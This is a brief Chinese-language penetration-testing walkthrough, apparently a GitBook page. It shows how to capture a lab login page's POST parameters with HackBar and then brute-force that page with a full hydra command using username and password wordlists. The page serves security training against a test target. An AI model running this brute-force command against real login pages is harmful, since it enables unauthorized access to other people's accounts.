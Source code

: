 用 hackbar 尝试获取 Post data 值

```text
  http://169.254.91.186/pentest/test/b2e16da5985ee1be/login.php
```

![hackbar](../.gitbook/assets/4_1.png)

准备存放常见用户名的文本user.txt和存放常见密码的文本passwd.txt

使用user.txt用户名文本和passwd.txt文本文本对无验证码且弱口令的登陆页面进行暴力破解

```text
  hydra -L user.txt -P passwd.txt -o output.log -vV -t 10  -f 169.254.91.186 http-post-form "/pentest/test/b2e16da5985ee1be/login.php:username=^USER^&pwd=^PASS^:login failure"
```

![&#x7ED3;&#x679C;](../.gitbook/assets/4_2.png)
